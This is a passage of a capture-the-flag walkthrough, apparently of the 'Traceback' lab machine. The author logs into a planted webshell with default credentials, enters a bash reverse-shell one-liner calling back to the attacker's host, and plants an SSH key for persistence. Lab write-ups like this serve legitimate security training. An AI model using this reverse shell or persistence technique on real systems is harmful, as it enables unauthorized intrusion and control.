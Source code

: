 

## Shell as webadmin

Visiting that path provides a login screen:

![](/img/image-20200315115957319.png)

I can see in the source that the default login is admin/admin:



    $UserName = "admin";                                      //Your UserName here.
    $auth_pass = "admin";                                  //Your Password.



And it works, letting me into the webshell where I can see the various
options:

![](/img/image-20200315121522863.png)

There's a lot of capability here, but I just want a shell, so I'll start
`nc` listening on my host, and enter
`bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'` into the Execute
box:



    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.181] 40482
    bash: cannot set terminal process group (546): Inappropriate ioctl for device
    bash: no job control in this shell
    webadmin@traceback:/var/www.md$ id
    uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)



This seems to hang the webshell. I quickly added a RSA public key to
`/home/webadmin/.ssh/authorized_keys`, and got an SSH connection. In
fact, I could have done that through the webshell.

## Priv: webadmin --\> sysadmin

### Enumeration

The home directory doesn't have `user.txt`, but it does have a note:



    webadmin@traceback:~$ ls -l
    total 4
    -rw-rw-r-- 1 sysadmin sysadmin 122 Mar 16 03:53 note.txt



`note.txt` is from the other user on the box, sysadmin:
